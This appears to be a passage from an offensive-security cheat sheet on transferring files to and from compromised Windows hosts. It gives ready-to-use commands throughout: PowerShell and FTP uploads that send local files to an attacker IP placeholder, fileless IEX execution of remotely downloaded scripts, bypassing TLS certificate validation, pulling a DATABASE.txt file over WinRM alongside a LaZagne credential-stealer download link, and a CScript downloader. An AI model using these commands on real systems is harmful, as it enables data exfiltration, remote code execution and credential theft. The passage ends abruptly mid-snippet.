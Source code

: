 ```powershell
PS > $webclient = New-Object System.Net.WebClient
PS > $webclient.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous@domain.com")
PS > $ftpUri = New-Object System.Uri("ftp://IP[:PORT]/file")
PS > $webclient.UploadFile($ftpUri, $localFilePath)

# Directly?
PS > (New-Object Net.WebClient).DownloadFile('ftp://IP[:PORT]/file', 'C:\Users\Public\ftp-file.txt')

# FTP Command File
> echo open <IP> > ftpcommand.txt
> echo USER anonymous >> ftpcommand.txt
> echo binary >> ftpcommand.txt
> echo GET file.txt >> ftpcommand.txt
> echo bye >> ftpcommand.txt
> ftp -v -n -s:ftpcommand.txt
```
- fileless execution
```powershell
PS > IEX (New-Object Net.WebClient).DownloadString('https://<IP>[:PORT]/path-to/script.ps1')
# OR PIPE IT
PS > (New-Object Net.WebClient).DownloadString('https://<IP>[:PORT]/path-to/script.ps1') | IEX
```
```powershell
# "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."
PS > [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## WinRM
```powershell
PS > Test-NetConnection -ComputerName DATABASE01 -Port 5985
PS > $Session = New-PSSession -ComputerName DATABASE01

Upload to Session
PS > Copy-Item -Path "Path\to\file" -ToSession $Session -Destination "Path\to\save"
https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe
PS > Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -FromSession $Session -Destination "C:\" 
```
## New-PSDrive
```powershell
> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
```
## CScript
- JavaScript
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
```cmd-session
> cscript.exe /nologo wget.js https://address.to/script.ps1 script.ps1
```
- VBScript
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
```